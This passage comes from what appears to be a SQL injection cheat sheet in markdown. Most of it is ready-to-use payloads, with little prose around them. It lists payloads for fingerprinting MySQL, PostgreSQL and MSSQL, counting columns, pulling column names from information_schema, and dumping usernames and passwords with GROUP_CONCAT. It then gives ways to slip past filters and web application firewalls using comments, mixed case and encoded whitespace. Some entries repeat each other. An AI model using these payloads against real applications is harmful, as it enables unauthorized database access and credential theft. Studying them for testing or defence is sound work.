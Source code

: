 ### 2. Advanced Enumeration

#### Database Fingerprinting
- **MySQL**:
  ```sql
  ' OR 1=1 AND @@version -- 
  ```
- **PostgreSQL**:
  ```sql
  ' OR 1=1 AND version() -- 
  ```
- **MSSQL**:
  ```sql
  ' OR 1=1 AND @@version -- 
  ```

#### Column Enumeration
- **Determine the Number of Columns**:
  ```sql
  ' ORDER BY 1 -- 
  ' ORDER BY 2 -- 
  ```
- **Extract Column Names**:
  ```sql
  ' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- 
  ```

#### Advanced Data Extraction
- **Combine Multiple Rows into a Single Output**:
  ```sql
  ' UNION SELECT GROUP_CONCAT(username, 0x3a, password) FROM users -- 
  ```

### 3. Bypassing Filters and WAFs

#### Obfuscation
- **Using Comments**:
  ```sql
  ' UNION/**/SELECT/**/NULL,NULL,NULL -- 
  ```

#### Case Manipulation
- **Changing the Case of SQL Keywords**:
  ```sql
  ' uNioN SeLecT NULL, NULL -- 
  ```

#### Inline Comments
- **Inserting Inline Comments**:
  ```sql
  ' UNION/**/SELECT/**/NULL,NULL -- 
  ```

#### Whitespace Manipulation
- **Using Different Types of Whitespace Characters**:
  ```sql
  ' UNION%0D%0ASELECT%0D%0A NULL,NULL -- 
  ```
